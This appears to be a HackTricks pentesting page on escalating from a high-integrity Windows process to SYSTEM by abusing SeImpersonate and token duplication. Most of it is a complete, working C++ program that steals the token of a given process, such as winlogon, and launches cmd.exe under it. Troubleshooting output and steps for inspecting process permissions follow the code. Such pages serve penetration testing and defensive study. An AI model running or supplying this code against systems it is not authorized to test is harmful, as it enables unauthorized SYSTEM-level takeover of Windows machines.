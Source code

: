 # SeImpersonate from High To System

{#include ../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}

### Code

The following code from [here](https://medium.com/@seemant.bisht24/understanding-and-abusing-access-tokens-part-ii-b9069f432962). It allows to **indicate a Process ID as argument** and a CMD **running as the user** of the indicated process will be run.\
Running in a High Integrity process you can **indicate the PID of a process running as System** (like winlogon, wininit) and execute a cmd.exe as system.

```cpp
impersonateuser.exe 1234
```

```cpp:impersonateuser.cpp
// From https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962

#include <windows.h>
#include <iostream>
#include <Lmcons.h>
BOOL SetPrivilege(
	HANDLE hToken,          // access token handle
	LPCTSTR lpszPrivilege,  // name of privilege to enable/disable
	BOOL bEnablePrivilege   // to enable or disable privilege
)
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system
		lpszPrivilege,   // privilege to lookup
		&luid))        // receives LUID of privilege
	{
		printf("[-] LookupPrivilegeValue error: %u\n", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	if (bEnablePrivilege)
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	else
		tp.Privileges[0].Attributes = 0;
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("[-] AdjustTokenPrivileges error: %u\n", GetLastError());
		return FALSE;
	}
	if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)
	{
		printf("[-] The token does not have the specified privilege. \n");
		return FALSE;
	}
	return TRUE;
}
std::string get_username()
{
	TCHAR username[UNLEN + 1];
	DWORD username_len = UNLEN + 1;
	GetUserName(username, &username_len);
	std::wstring username_w(username);
	std::string username_s(username_w.begin(), username_w.end());
	return username_s;
}
int main(int argc, char** argv) {
	// Print whoami to compare to thread later
	printf("[+] Current user is: %s\n", (get_username()).c_str());
	// Grab PID from command line argument
	char* pid_c = argv[1];
	DWORD PID_TO_IMPERSONATE = atoi(pid_c);
	// Initialize variables and structures
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);
	// Add SE debug privilege
	HANDLE currentTokenHandle = NULL;
	BOOL getCurrentToken = OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &currentTokenHandle);
	if (SetPrivilege(currentTokenHandle, L"SeDebugPrivilege", TRUE))
	{
		printf("[+] SeDebugPrivilege enabled!\n");
	}
	// Call OpenProcess(), print return code and error code
	HANDLE processHandle = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, PID_TO_IMPERSONATE);
	if (GetLastError() == NULL)
		printf("[+] OpenProcess() success!\n");
	else
	{
		printf("[-] OpenProcess() Return Code: %i\n", processHandle);
		printf("[-] OpenProcess() Error: %i\n", GetLastError());
	}
	// Call OpenProcessToken(), print return code and error code
	BOOL getToken = OpenProcessToken(processHandle, MAXIMUM_ALLOWED, &tokenHandle);
	if (GetLastError() == NULL)
		printf("[+] OpenProcessToken() success!\n");
	else
	{
		printf("[-] OpenProcessToken() Return Code: %i\n", getToken);
		printf("[-] OpenProcessToken() Error: %i\n", GetLastError());
	}
	// Impersonate user in a thread
	BOOL impersonateUser = ImpersonateLoggedOnUser(tokenHandle);
	if (GetLastError() == NULL)
	{
		printf("[+] ImpersonatedLoggedOnUser() success!\n");
		printf("[+] Current user is: %s\n", (get_username()).c_str());
		printf("[+] Reverting thread to original user context\n");
		RevertToSelf();
	}
	else
	{
		printf("[-] ImpersonatedLoggedOnUser() Return Code: %i\n", getToken);
		printf("[-] ImpersonatedLoggedOnUser() Error: %i\n", GetLastError());
	}
	// Call DuplicateTokenEx(), print return code and error code
	BOOL duplicateToken = DuplicateTokenEx(tokenHandle, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);
	if (GetLastError() == NULL)
		printf("[+] DuplicateTokenEx() success!\n");
	else
	{
		printf("[-] DuplicateTokenEx() Return Code: %i\n", duplicateToken);
		printf("[-] DupicateTokenEx() Error: %i\n", GetLastError());
	}
	// Call CreateProcessWithTokenW(), print return code and error code
	BOOL createProcess = CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &startupInfo, &processInformation);
	if (GetLastError() == NULL)
		printf("[+] Process spawned!\n");
	else
	{
		printf("[-] CreateProcessWithTokenW Return Code: %i\n", createProcess);
		printf("[-] CreateProcessWithTokenW Error: %i\n", GetLastError());
	}
	return 0;
}
```

### Error

On some occasions you may try to impersonate System and it won't work showing an output like the following:

```cpp
[+] OpenProcess() success!
[+] OpenProcessToken() success!
[-] ImpersonatedLoggedOnUser() Return Code: 1
[-] ImpersonatedLoggedOnUser() Error: 5
[-] DuplicateTokenEx() Return Code: 0
[-] DupicateTokenEx() Error: 5
[-] CreateProcessWithTokenW Return Code: 0
[-] CreateProcessWithTokenW Error: 1326
```

This means that even if you are running on a High Integrity level **you don't have enough permissions**.\
Let's check current Administrator permissions over `svchost.exe` processes with **processes explorer** (or you can also use process hacker):

1. Select a process of `svchost.exe`
2. Right Click --> Properties
3. Inside "Security" Tab click in the bottom right the button "Permissions"
4. Click on "Advanced"
5. Select "Administrators" and click on "Edit"
6. Click on "Show advanced permissions"

![](<../../images/image (437).png>)

The previous image contains all the privileges that "Administrators" have over the selected process (as you can see in case of `svchost.exe` they only have "Query" privileges)

See the privileges "Administrators" have over `winlogon.exe`:

![](<../../images/image (1102).png>)

Inside that process "Administrators" can "Read Memory" and "Read Permissions" which probably allows Administrators to impersonate the token used by this process.

{#include ../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}


